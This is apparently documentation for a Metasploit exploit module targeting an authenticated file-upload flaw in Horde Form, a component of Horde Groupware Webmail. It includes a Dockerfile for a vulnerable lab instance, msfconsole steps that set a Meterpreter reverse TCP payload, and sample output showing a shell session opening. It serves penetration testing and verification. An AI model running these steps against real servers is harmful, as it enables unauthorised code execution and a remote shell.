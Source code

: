 Horde Groupware Webmail is a popular open-source groupware platform written in PHP. A vulnerability allows an authenticated, unprivileged user to create a malicious PHP file under the web root and gain arbitrary code execution on the server. 

## Vulnerable Application

The Horde subcomponent Horde Form < 2.0.19 is affected. This module was specifically tested against Horde Groupware Webmail Edition 5.2.22 and 5.2.17 with Horde Form 2.0.18 installed with PEAR on Debian.

### Docker install on Ubuntu 18.04

Please follow these steps to setup a vulnerable version of Horde in Docker on a Ubuntu.

1. Set up a [Ubuntu](http://www.ubuntu.com/) 18.04 box.
2. Open a terminal, and enter: ```sudo apt-get install docker.io```. Make sure Docker is properly configured and your current user has permession to use it.
3. Enter: ```mkdir horde_form_file_upload``` to create a folder.
4. Enter: ```cd horde_form_file_upload``` to enter that folder.
5. Create a ```Dockerfile``` in it with the following content.

```
FROM debian

RUN apt-get update
RUN apt-get install --yes --no-install-recommends \
    apache2 \
    ca-certificates \
    dovecot-imapd \
    libapache2-mod-php \
    mysql-server \
    php-mysqli \
    php-pear \
    rsyslog

RUN pear upgrade PEAR
RUN pear channel-discover pear.horde.org
RUN pear install horde/horde_role
RUN rm -r /var/www/html/ && mkdir /var/www/html/
RUN echo /var/www/html/ | pear run-scripts horde/Horde_Role
RUN pear install -a -B horde/webmail-5.2.22
# Uninstall end reinstall the vulnerable version
RUN pear uninstall -n horde/Horde_Form
RUN pear install -a -B horde/Horde_Form-2.0.18 
RUN sed -i "/'secure' => 'tls',/d" /var/www/html/imp/config/backends.php
RUN chown -R www-data:www-data /var/www/html/

RUN useradd -m -G mail user && echo 'user:user' | chpasswd

RUN echo 'disable_plaintext_auth = no' | tee /etc/dovecot/conf.d/99-auth.conf

ENTRYPOINT \
           /etc/init.d/mysql start && \
           echo 'CREATE DATABASE IF NOT EXISTS horde;' | mysql && \
           echo 'CREATE USER IF NOT EXISTS horde;' | mysql && \
           echo 'GRANT ALL ON horde.* TO horde IDENTIFIED BY "horde";' | mysql && \
           { echo mysqli;    sleep 0.3; \
             echo horde;     sleep 0.3; \
             echo horde;     sleep 0.3; \
             echo tcp;       sleep 0.3; \
             echo localhost; sleep 0.3; \
             echo;           sleep 0.3; \
             echo horde;     sleep 0.3; \
             echo;           sleep 0.3; \
             echo false;     sleep 0.3; \
             echo;           sleep 0.3; \
             echo 1;         sleep 0.3; } | webmail-install && \
           dovecot && \
           /etc/init.d/apache2 start && \
           tail -F /var/log/apache2/access.log /var/log/syslog
```

6. Enter: ```docker build . -t horde-img``` to build the Docker image.
7. Enter: ```docker run -p8888:80 --name horde-inst horde-img``` to run the Docker instance with the name ```horde-inst```.
8. Get the Docker host ip for reverse connection. In Linux, enter: ```ip -4 addr show docker0 | grep -Po 'inet \K[\d.]+'```.

## Verification Steps

After setting up Horde, you can use your exploit module:

1. Start msfconsole
2. Do: ```use exploit/multi/http/horde_form_file_upload```
3. Do: ```set RHOSTS 127.0.0.1```
4. Do: ```set RPORT 8888```
5. Do: ```set payload php/meterpreter/reverse_tcp```
6. Do: ```set LHOST [HOST IP]```
7. Do: ```set VHOST horde.lab```
8. Do: ```set USERNAME user ```
9. Do: ```set PASSWORD user```
10. Do: ```exploit```
11. And you should get a session

## Scenarios

### Horde Groupware Webmail Edition 5.2.22 with Horde Form 2.0.18 on a Debian stretch on Docker running on an Ubuntu 16.04

```
msf exploit(multi/http/horde_form_file_upload) > exploit

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Uploading payload to ../var/www/html/static/mxkyfrlztogn.php
[*] Sending stage (38247 bytes) to 172.17.0.3
[*] Meterpreter session 1 opened (172.17.0.1:4444 -> 172.17.0.3:47720) at 2019-03-29 15:27:53 +0000

meterpreter > 
```
